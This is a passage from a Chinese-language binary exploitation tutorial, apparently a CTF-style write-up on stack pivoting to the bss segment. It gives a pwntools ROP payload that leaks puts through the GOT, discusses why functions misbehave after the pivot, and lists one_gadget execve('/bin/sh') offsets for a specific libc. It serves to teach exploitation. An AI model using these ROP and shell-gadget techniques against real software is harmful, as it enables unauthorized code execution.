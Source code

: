 ```plain
main=0x4011BD
rdi=0x401273
puts_got=0x404018 
puts_addr=0x401060
payload3 = p64(bss+0x40)+p64(rdi)+p64(puts_got)+p64(puts_addr)+p64(main)
io.send(payload3)
```

[![](assets/1705982215-f6be2959ee54231e3976716d6eb190d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121162420-79cdfd90-b836-1.png)

接下来再用一次上面的三个步骤即可在最后的 payload3 进行控制参数任意函数（伪）执行了

### 有一些注意的点：

当栈迁移到 bss 段后，有一些函数加载的临时变量可能无法正常加载到新的栈上，所以在返回到主函数运行时报错就需要重新寻找适合的，能够进行再次溢出的位置作为返回地址

这类函数包括但不限于：system，execve，printf，seccomp 等等

所以在以上的返回中我们如果想返回一个 shell，就需要利用工具 `one_gadget`（后面再开一章讲解工具安装和使用）查找 libc 中的能直接调用系统调用 execve("/bin/sh",0,0) 的 gadget 偏移

上面 demo 程序在 `libc2.31ubuntu9.9` 的 one\_gadget 如下

```plain
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
```
